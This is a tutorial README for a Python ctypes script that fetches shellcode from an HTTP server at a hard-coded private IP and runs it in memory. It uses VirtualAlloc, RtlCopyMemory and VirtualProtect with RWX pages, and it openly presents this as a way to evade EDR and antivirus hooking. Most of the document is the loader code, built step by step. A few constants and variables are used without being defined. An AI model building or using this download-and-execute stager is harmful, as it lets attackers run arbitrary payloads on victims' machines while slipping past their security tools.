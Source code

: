 # Windows API Calls

The Windows API, also known as WinAPI, is a set of functions that allow programs to interact with the underlying operating system. This script demonstrates how to utilize low-level Windows API calls to execute shellcode directly in memory, bypassing traditional methods of execution by avoiding hooking mechanisms used by EDR and Anti-Virus systems.

In this case, we use the `VirtualAlloc`, `VirtualProtect`, and `RtlCopyMemory` functions from the Windows `kernel32.dll` library to allocate memory, copy shellcode into it, adjust memory protection, and finally execute the shellcode.

## References

- [Windows API - Wikipedia](https://en.wikipedia.org/wiki/Windows_API)
- [VirtualAlloc Documentation](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)
- [VirtualProtect Documentation](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)
- [RtlCopyMemory Documentation](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcopymemory)
- [CFUNCTYPE Documentation](https://docs.python.org/3/library/ctypes.html#ctypes.CFUNCTYPE)

## Building the Script

This script demonstrates how to fetch shellcode from a server, allocate memory, copy the shellcode into the allocated memory, set the memory protection, and finally execute the shellcode.

We begin by importing the necessary modules from the `ctypes` library, which allow us to interact with low-level Windows API functions.

```python
import requests
from ctypes import *
from ctypes import wintypes
```

Next, we define the argument types and return types for the Windows API functions that we will use:

```python
VirtualAlloc = windll.kernel32.VirtualAlloc
VirtualAlloc.argtypes = (
    wintypes.LPVOID,
    SIZE_T,
    wintypes.DWORD,
    wintypes.DWORD
)
VirtualAlloc.restype = wintypes.LPVOID

VirtualProtect = windll.kernel32.VirtualProtect
VirtualProtect.argtypes = (
    wintypes.LPVOID,
    SIZE_T,
    wintypes.DWORD,
    POINTER(wintypes.DWORD)
)
VirtualProtect.restype = wintypes.BOOL
```

- `argtypes`: Specifies the types of arguments that each function expects.
- `restype`: Specifies the return type of the function.

<br>

Now, we fetch the shellcode from the HTTP server.

```python
URL = "http://192.168.56.5:8000/shellcode"  # Change the URL to your own server

response = requests.get(URL)
shellcode = response.content
shellcode_length = len(shellcode)

print(f"Shellcode fetched: {shellcode_length} bytes.")
```

Here, we send a GET request to the server and retrieve the shellcode. The length of the shellcode is printed to confirm the size of the data.

<br>

Next, we allocate memory using `VirtualAlloc` with the required parameters.

```python
PAGE_SIZE = 4096
RegionSize = SIZE_T((shellcode_length + PAGE_SIZE - 1) // PAGE_SIZE * PAGE_SIZE)
AllocationType = MEM_COMMIT | MEM_RESERVE
PAGE_EXECUTE_READ_WRITE = 0x40

allocated_memory = VirtualAlloc(
    BaseAddress,
    RegionSize,
    AllocationType,
    PAGE_EXECUTE_READ_WRITE
)

if allocated_memory == 0:
    raise RuntimeError("VirtualAlloc failed. Memory allocation error.")

print(f"Memory allocated at -> {hex(allocated_memory)}")
```

We calculate the appropriate region size for the memory allocation, round it up to the nearest page size, and request memory using `MEM_COMMIT` and `MEM_RESERVE` flags. The memory protection is set to `PAGE_EXECUTE_READ_WRITE` to allow code execution.

<br>

After allocating memory, we copy the shellcode into the allocated memory region using `RtlCopyMemory`.

```python
shellcode_ptr = (c_char * shellcode_length).from_buffer_copy(shellcode)
RtlCopyMemory = windll.kernel32.RtlCopyMemory
RtlCopyMemory.argtypes = (wintypes.LPVOID, wintypes.LPCVOID, SIZE_T)
RtlCopyMemory.restype = None

RtlCopyMemory(
    allocated_memory,
    shellcode_ptr,
    shellcode_length
)

print("Shellcode copied to allocated memory.")
```

This step copies the shellcode into the allocated memory address.

<br>

We then update the memory protection using `VirtualProtect` to ensure that the allocated memory is marked as executable.

```python
NewProtect = PAGE_EXECUTE_READ_WRITE
OldProtect = wintypes.DWORD(0)

res = VirtualProtect(
    allocated_memory,
    RegionSize,
    NewProtect,
    byref(OldProtect)
)

if not res:
    raise RuntimeError("VirtualProtect failed. Memory protection error.")

print("Memory protection updated to PAGE_EXECUTE_READ_WRITE.")
```

This step is essential for ensuring that the shellcode can be executed from the allocated memory.

<br>

Finally, we define the shellcode function type and cast the allocated memory to a callable function:

```python
shellcode_func = CFUNCTYPE(None)
shellcode_callable = cast(allocated_memory, shellcode_func)

print("Executing shellcode...")
shellcode_callable()
```

The `CFUNCTYPE` defines a callable type, and we cast the allocated memory to this type to execute the shellcode.

## Example Output

![ss_demo](https://github.com/user-attachments/assets/00c635fa-e6d3-4449-b09a-f85001fb0982)
